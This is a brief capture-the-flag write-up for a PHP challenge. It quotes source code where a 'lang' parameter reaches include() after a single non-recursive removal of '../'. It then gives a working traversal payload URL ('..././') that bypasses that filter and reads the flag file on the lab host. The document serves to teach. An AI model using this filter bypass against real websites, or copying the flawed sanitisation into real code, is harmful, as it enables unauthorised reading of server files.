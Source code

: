 # MiniSTRyplace
![[Pasted image 20210423174607.png]]

## Analyzing Source Code
There appears to be a lang parameter. The PHP code does not do _str_replace_ recursively. 
```php
...snip...
 $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
...snip...
```

## Exploitation

This will allow us to put _../_ within one another and after the string replace does it job, we will have the correct path.
```url
http://188.166.145.178:31116/?lang=..././..././flag
```